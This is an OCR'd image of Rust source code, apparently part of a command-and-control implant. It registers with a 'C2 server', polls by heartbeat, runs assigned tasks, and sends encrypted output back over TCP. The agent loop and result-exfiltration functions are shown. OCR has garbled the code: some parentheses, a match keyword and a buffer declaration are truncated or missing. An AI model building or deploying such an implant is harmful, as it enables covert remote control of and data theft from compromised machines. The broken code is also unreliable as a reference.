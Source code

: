 ```rust
            } else {
                let stderr = String::from_utf8_lossy(&output.stderr).to_string();
                result.insert("output".to_string(), format!("Error: {}", stderr));
            }
            
            serde_json::to_string(&result
        } else {
            "Unsupported task type".to_string()
        }
    }
    
    fn send_task_result(&self, bool {
        if self.id.is_none() {
            return false;
        }
        
        if let Ok(mut stream) = TcpStream::connect(&self.server_addr) {
            let message = Message {
                id: Uuid::new_v4().to_string(),
                msg_timestamp: SystemTime::now().duration_since(SystemTime::UNIX_EPOCH).unwrap().as_secs(),
                content: result.to_string(),
                agent_id: self.id.clone(),
            };
            
            let encrypted = self.encrypt(&serde_json::to_string(&message).unwrap());
            stream.write_all(encrypted.as_bytes()).unwrap();
            
            let mut buffer = [0 stream.read(&mut buffer).unwrap();
            let data = String::from_utf8_lossy(&buffer[0..size]).to_string();
            let decrypted = self.decrypt(&data);
            
            let response: Message = serde_json::from_str(&decrypted).unwrap();
             {
                MessageType::TaskResult => true,
                _ =>
            false
        }
    }
    
    fn run(&mut self) {
        // Try to register with the C2 server
        while !self.register() {
            println!("Failed to register with C2 server. Retrying in 30 seconds...");
            thread::sleep(ecs(30));
        }
        
        println!("Successfully registered with C2 server. Agent ID: {}", self.id.as_ref().unwrap());
        
        // Main agent loop
        loop {
            // Send heartbeat and check for tasks
            if let Some(response) = self.heartbeat() {
                match response.msg_type {
                    MessageType::TaskAssignment => {
                        println!("Received task: {}", response.content);
                        let result = self.handle_task(&response.content);
                        self.send_task_result(&result);
                    },
                    _} else {
                println!("Failed to communicate with C2 server. Retrying in 60 seconds...");
            }
```